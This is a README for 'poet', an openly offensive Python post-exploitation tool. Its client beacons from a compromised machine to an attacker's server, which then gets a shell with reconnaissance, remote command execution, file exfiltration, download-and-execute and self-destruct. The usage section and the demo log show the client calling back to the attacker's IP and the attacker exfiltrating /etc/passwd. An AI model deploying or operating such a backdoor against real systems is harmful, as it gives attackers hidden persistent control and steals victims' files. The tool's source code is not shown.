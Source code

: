 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ ./client.py -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo ./server.py
```

Of course, using the `-h` flag gives you the full usage.

```
$ ./client.py -h
usage: client.py [-h] [-p PORT] [-v] [-d] IP INTERVAL

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ ./server.py -h
usage: server.py [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ ./client.py -v 1.2.3.4 10
[+] Poet started with delay of 10 seconds to port 443. Ctrl-c to exit.
[!] (2014-09-06 02:07:03.058921) Server is inactive
[!] (2014-09-06 02:07:13.060840) Server is inactive
[!] (2014-09-06 02:07:23.062512) Server is inactive
[!] (2014-09-06 02:07:33.064214) Server is inactive
[+] (2014-09-06 02:07:43.066828) Server is active
[!] (2014-09-06 02:08:50.403668) Server is inactive
[!] (2014-09-06 02:09:00.405364) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# ./server.py
[+] Poet server started on 443.
[i] (2014-09-06 02:07:43.066092) Connected By: ('5.4.3.2', 62209)
[+] (2014-09-06 02:07:43.066531) Entering control shell
Welcome to psh, the poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20140906/exfil/passwd
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2014-09-06 02:08:40.401181) Exiting control shell.
[-] (2014-09-06 02:08:40.401328) Poet terminated.
```
